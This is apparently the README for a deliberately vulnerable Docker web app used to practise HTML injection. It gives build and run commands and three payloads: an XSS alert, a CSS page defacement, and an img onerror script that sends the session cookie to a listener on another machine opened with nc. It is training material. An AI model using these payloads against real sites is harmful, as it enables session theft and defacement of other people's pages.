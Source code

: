 # HTML Injection   

A simple docker container that has a web app that is susceptible to HTML injection.

## Build
```
docker build -t html-injection .
```

## Usage
```
docker run --rm -d -p 5000:5000 --name html-injection -t html-injection
```

## Examples
### 1) Simple HTML Injection
Click the "Click to enter your name" button and insert a XSS test alert script.

```
<script>alert("XSS Test")</script>
```

### 2) Defacement of the page
You can import pictures using a script.

```
<style> body {background-image: url('https://uwe-cyber.github.io/images/uwecyber.png');}</style>
```

### 3) Stealing Cookies
Export the session cookie to a remote server.

Have a nc listener running on port 5001 on your local machine.

```
nc -lvp 5001
```

Then use the following script to export the cookie to your local machine. Note the `removeAttribute` is used to prevent the script from running more than once.

```
<img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
```
